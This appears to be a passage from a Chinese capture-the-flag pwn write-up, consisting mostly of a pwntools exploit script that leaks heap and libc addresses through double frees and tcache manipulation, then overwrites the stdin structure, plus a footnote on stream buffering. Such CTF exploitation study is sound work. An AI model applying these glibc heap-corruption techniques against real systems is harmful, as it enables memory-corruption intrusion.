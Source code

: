 ```python
    return int(p.recvuntil('\n', drop=True))
 
# leak heap address
add(1,0x30)
delete(1)
add(2,0x20)
delete(2)
add(1,0x30)
delete(2)
heap_base = show(2)-0x290
log.info("heap_base:"+hex(heap_base))

# house of spirt
add(2, heap_base+0x250)
add(2, heap_base+0x250)
# overwrite chunk0 size to 0x91
add(2, 0x91)

# leak libc address
# double free chunk0 into unsortedbin 
for i in range(0, 7):
    delete(1)
    add(2, 0x20)
delete(1)
 
leak_addr = show(1) - 96
libc_base = leak_addr - libc.sym['__malloc_hook'] - 0x10
log.info("libc_base:"+hex(libc_base))
stdin_fileno = libc_base + libc.sym['_IO_2_1_stdin_'] + 0x70
log.info("stdin_fileno:"+hex(stdin_fileno))
 
# write tcache fd 
add(1, stdin_fileno)

# house of sprit
add(1, 0x30) 
delete(1)
add(2, 0x20)
delete(1)
heap_base = show(1) - 0x290
log.info("heap_base:"+hex(heap_base))
add(1, heap_base+0x260)
add(1, heap_base+0x260)
add(1, 231)
add(1, 666)
 
p.sendlineafter('> ', '4')

p.interactive()
```


[^1]: 用 fwrite 等这种流 I/O 函数写入写出，数据会先放在缓冲区，并没有真正输入或者输出，需要用 fflush 冲洗流中信息才完成写入写出。避免用 fflush 冲洗就用 setbuf 函数关闭缓冲（pwn 题初始化必备）